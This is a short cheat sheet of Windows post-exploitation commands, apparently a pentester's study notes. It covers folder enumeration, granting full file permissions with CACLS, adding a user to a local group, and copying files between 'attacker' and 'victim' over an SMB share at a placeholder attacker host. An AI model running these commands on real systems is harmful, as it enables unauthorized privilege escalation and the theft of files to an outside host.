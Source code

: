 # folder enumeration

```
dir <file*> /S /B
```

# set full permission

```
CACLS file_path /e /p <user>:F
```

# add user to group

```
net localgroup <group> <user> /add
```

# move files from attacker to victim via smb share

```
copy \\<lhost>\kali\<some-file> C:\PrivEsc\<some-file>
```

# move files from victiom to attacker via smb share

```
copy C:\PrivEsc\<some-file> \\<lhost>\kali\<some-file>

```
